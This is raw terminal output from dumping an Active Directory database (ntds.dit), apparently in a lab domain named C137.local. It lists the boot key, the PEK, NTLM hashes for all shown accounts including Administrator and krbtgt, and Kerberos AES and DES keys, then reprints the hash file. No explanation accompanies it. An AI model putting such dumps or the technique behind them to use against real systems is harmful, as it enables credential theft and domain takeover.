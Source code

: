     [*] Target system bootKey: 0xdfa37c24984935de32e2063e02918c28
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: 6e884ac48cd2aa3a8d5f50c64d4bc38a
    [*] Reading and decrypting hashes from ntds.dit 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:10e63d3f2c9924bae49241cff847e405:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    CITADEL-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:33c082748b7d35ec846a513b7be92d94:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:25c9610b742a5bca9aa3801c08b8ca4e:::
    C137.local\jerrysmith:1104:aad3b435b51404eeaad3b435b51404ee:bc51f858ccacc9db408c0ba511d5d639:::
    C137.local\summersmith:1105:aad3b435b51404eeaad3b435b51404ee:26b2cc706093c4fa46e0519ec5feaeaf:::
    C137.local\ricksanchez:1106:aad3b435b51404eeaad3b435b51404ee:746447f27820a9d863eea94d176cc135:::
    C137.local\mortysmith:1108:aad3b435b51404eeaad3b435b51404ee:dc8b282b8f4e1dd3c5f95fd491ff6d8d:::
    C137.local\bethsmith:1109:aad3b435b51404eeaad3b435b51404ee:b9cc9177094af2e17b413a0cbf63fac2:::
    C137.local\birdman:1118:aad3b435b51404eeaad3b435b51404ee:944055b77ebe7d6fd80f24b5fce634fb:::
    DESKTOP-SDN1RPT$:1602:aad3b435b51404eeaad3b435b51404ee:fa6ecdc900cbeeb623cfc92297e5b653:::
    [*] Kerberos keys from ntds.dit 
    CITADEL-DC01$:aes256-cts-hmac-sha1-96:3635b6b22a960673e327ca4c378e162befa74ee56e46b3841b84cabecfc062e8
    CITADEL-DC01$:aes128-cts-hmac-sha1-96:9324dad1f82699bf65cdbfd5a4572067
    CITADEL-DC01$:des-cbc-md5:94abfd29f1929d19
    krbtgt:aes256-cts-hmac-sha1-96:141aca9186cc33caa6ef3db5cf3a53b783bd29e7431a153c89f8b1d4562de7f1
    krbtgt:aes128-cts-hmac-sha1-96:d695009f7f7b6eb48a6b1b749493f199
    krbtgt:des-cbc-md5:b025018c62ec023b
    C137.local\jerrysmith:aes256-cts-hmac-sha1-96:87eb9c5715de1eb078cc6691871672019356976f093348c03b0ca21a75fc0e9f
    C137.local\jerrysmith:aes128-cts-hmac-sha1-96:ea468a0f250c15fea4e8f4c74d20c56e
    C137.local\jerrysmith:des-cbc-md5:7c40d03464e5e9a8
    C137.local\summersmith:aes256-cts-hmac-sha1-96:38060a9e953e8dde6e991db5de72e566c8a652c195b0e88d9c81e26d05ee1ce5
    C137.local\summersmith:aes128-cts-hmac-sha1-96:8851e24f50c80026e2e1578a2a3d3802
    C137.local\summersmith:des-cbc-md5:3bd09e3b73bfb0f4
    C137.local\ricksanchez:aes256-cts-hmac-sha1-96:08bc14d8f69e1ceadd0079303cd1bc434ed61d6a4895f71073662ff24eb8e4dd
    C137.local\ricksanchez:aes128-cts-hmac-sha1-96:0c428543d20db44c45cbf6948b4cf5d4
    C137.local\ricksanchez:des-cbc-md5:cdf891a75889f107
    C137.local\mortysmith:aes256-cts-hmac-sha1-96:ee5442baa6535d2580ac694ac6c0cbe3a65f137ba3ace39a18cba58a160ce73c
    C137.local\mortysmith:aes128-cts-hmac-sha1-96:697ece25fd3cffbfa24d82ab9789596c
    C137.local\mortysmith:des-cbc-md5:3280f79b131aea4c
    C137.local\bethsmith:aes256-cts-hmac-sha1-96:1e98c29b4ba43d21d200bd1802ff5109c0549621931e2f3af0c0809099405b88
    C137.local\bethsmith:aes128-cts-hmac-sha1-96:ea3285637fe5bb216bcd5cd0cfbc6663
    C137.local\bethsmith:des-cbc-md5:151f891ff4cb6b4f
    C137.local\birdman:aes256-cts-hmac-sha1-96:f20039a71fad3a9a0a374c09e55f1d1bed1600c2329fee84aada8a502d903023
    C137.local\birdman:aes128-cts-hmac-sha1-96:6507f6ac1b4ec9c23e65d1528ec92ec1
    C137.local\birdman:des-cbc-md5:2f4068527aeafb85
    DESKTOP-SDN1RPT$:aes256-cts-hmac-sha1-96:424f9a36c72c7bec7a2f7082111ed818c375e8945e6cfc9bc599b6587fb1b3ea
    DESKTOP-SDN1RPT$:aes128-cts-hmac-sha1-96:14122a1520d70f1dc6fccbf8aee330b0
    DESKTOP-SDN1RPT$:des-cbc-md5:6d20ad583729b03e
    [*] Cleaning up...
    $ cat hashes.txt.ntds
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:10e63d3f2c9924bae49241cff847e405:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    CITADEL-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:33c082748b7d35ec846a513b7be92d94:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:25c9610b742a5bca9aa3801c08b8ca4e:::
    C137.local\jerrysmith:1104:aad3b435b51404eeaad3b435b51404ee:bc51f858ccacc9db408c0ba511d5d639:::
    C137.local\summersmith:1105:aad3b435b51404eeaad3b435b51404ee:26b2cc706093c4fa46e0519ec5feaeaf:::
    C137.local\ricksanchez:1106:aad3b435b51404eeaad3b435b51404ee:746447f27820a9d863eea94d176cc135:::
    C137.local\mortysmith:1108:aad3b435b51404eeaad3b435b51404ee:dc8b282b8f4e1dd3c5f95fd491ff6d8d:::
    C137.local\bethsmith:1109:aad3b435b51404eeaad3b435b51404ee:b9cc9177094af2e17b413a0cbf63fac2:::
    C137.local\birdman:1118:aad3b435b51404eeaad3b435b51404ee:944055b77ebe7d6fd80f24b5fce634fb:::